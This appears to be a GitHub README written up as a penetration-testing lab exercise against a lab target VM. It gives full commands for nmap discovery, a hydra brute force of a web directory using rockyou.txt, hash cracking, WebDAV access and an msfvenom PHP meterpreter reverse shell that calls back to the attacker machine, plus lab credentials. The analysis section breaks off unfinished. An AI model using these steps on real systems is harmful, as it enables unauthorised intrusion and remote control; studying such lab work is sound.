





# RED-vs-BLUE
Project demostrating my knowledge in defensive security, and pentration testing in a gray box environment.
## Network Topology

| Name | Function | IP Address |
| -------- | --------| --------- |
| Kali VM  | Attacking Machine | 192.168.1.90 |
| Capstone VM | Target Machine | 192.168.1.105 |
| ELK Server | Monitoring Machine | 192.168.1.100 |

## Discover the IP address for the Linux server

-Open up a terminal and run an nmap of the network
`nmap 192.168.1.0/24`
![Nmap scan]{Images/nmap_find_webserver.png}

- Looking at the image above we can see that port 80 is open on 192.168.1.105. Which is the machine that we are looking for.

- We now need to open up a browser and navigate to the web page.
` http://192.168.1.105 `

## Locate the hidden directory on the server

- Navigating through different directories, you will see a reoccurring message.
*Please refer to company_folder/secret_folder for more information*
*ERROR: company_folders/secret_folder/ is no longer accessible to the public*

- Navigate to that directory by updating the path in the url.
` http://192.168.1.105/company_folders_secret_folder `

- The directory asks for authentication in order to access it. Reading the authentication method, it says *For ashton's eyes only*

- This gives us a good idea on what account to target

## Brute force the password for the hidden directory

- Because the folder is password protected, we need to either guess the password or brute force into the directory. In, this case, it would be much more efficient to use a brute force attack, specifically Hydra.

- Command used `hydra -l ashton -P ./wordlist/rockyou.txt -s 80 -f 192.168.1.105 http-get /company_folders/secret_folder`

- We can see that Ashton's password is *leopoldo*
- Going back to the *company_folders/secret_folder* enter the information that we found.

- Once inside the directory navigate the the *connect_to_corp_server* We find instructions on how to connect to the server via **WebDAV**
- We can also see ryan's password hash.

## Connect to the server via WebDAV

- Using ryan's password hash we can either put the hash into a file with the proper format and use `john`, or we can use *https://crackstation.net* to crack the passwod. In this case we will be using *crackstation*.

-Naviage to *https://crackstation.net* and enter the hash into the text box.

- The password is revealed as: `linux4u`

## Connect to the server via WebDAV

- In order to connect to the webserver via WebDAV we need to do as follows.
  1. Open the **File System** from the desktop
  2. Click **Browse Network**
  3. In the URL bar, type: `dav://192.168.1.105/webdav` and enter ryans credentials to log in.

## Upload a PHP reverse shell payload

- We start by creating the payload using **msfvenom**.

- `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 > shell.php`

- On the Kali machine we need to set up a listener.
  - Start msfconsole: run `msfconsole`
  - Load module: run `use exploit/multi/handler`
  - Set payload: run `set payload php/meterpreter/reverse_tcp`
  - Set Local Host: run `set LHOST 192.168.1.90`
  - Set Local Port: run `set LPORT 4444`
  - View settings for module: run `show options`
  - Start the listener: run `exploit`

- Now drag and drop the **shell.php** from the Kali desktop to the webserver.

- Connect to the webdav folder by navigating to **192.168.1.105/webdav** and use ryan's credentials. **ryan:linux4u**

- Click the `shell.php` - If the browser is hanging or loading that means its working.

## Using Meterpreter to find flag

- Open the listener and change to the root directory. `cd /`
- Search the system for files that conatin *flag* `find . -iname flag
- Cat out the file found `cat flag.txt`

## Analysis

### Finding the target

- In this grey hat environment we were able to find which server was the Web Server by noticing which host had port 80. The service running on this port is http which is an unsecure protocol as it doesn't encrypt it's traffic.

### Locate vulnerable directories and files

- After navigating to the vulnerable target we traveresed through the directories to find hints on which directories conatined sensitive data. We notice that the directory */secret_folder/* is no longer available to the public. 

- Navigating to this directory requires authentication, and a note that states "for ashton's eyes only". This gives us information on what the username might be to access this directory.

### Brute force the hidden directory

- We used the hydra command to brute force the password for ashton's account. Here is a breakdown of the hydra command used.
   - `hydra` - command
   - `-l ashton` - login name
   - `-P /usr/share/wordlists/rockyou.txt` - Point the password to load several passwords from a file.
   - `-s 80` - run command on port 80
   - `-f` - stop command after the first found username/password pair.
   - `-vV` - Verbose mode which shows attempted username and password combinations
   - `192.168.1.105` - targeted address
   - `http-get /company_folders/secret_folder` - send a http-get request to the targeted directory

- Running this command was able to enumerate the password for ashton's account.
- Using the credentials found we were able to find another file on how to connect to the Web Server via WebDav.

### Connecting to Server via WebDav

- WebDav is an extension of the hypertext protocol that allows clients to perform remote Web content authoring operation. Knowing this gives us the ability to add changes to the Web server.

- With the given hash and username associated with the hash we are easily able to crack the hash with `john` or by using crackstation.net.

### 